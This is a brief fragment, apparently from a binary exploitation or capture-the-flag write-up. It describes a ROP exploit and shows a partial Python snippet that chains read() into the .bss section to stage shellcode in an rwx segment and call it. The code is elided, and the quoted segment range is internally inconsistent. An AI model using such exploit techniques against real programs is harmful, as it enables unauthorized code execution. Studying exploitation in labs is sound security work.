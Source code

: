 # Exploit Works  
Because your binary has all the gadgets you need, take advantage of the simple ROP technique with the gadget.  

```python  
def exploit():
  …
	p1 += flat(elf.plt['read'], p3r, 0, elf.bss() + 0x500, len(shellcode) + 1)
	p1 += flat(elf.bss() + 0x500)
  …
```

and write Shellcodes in rwx segment (0x0804a000-0x0804000), call it
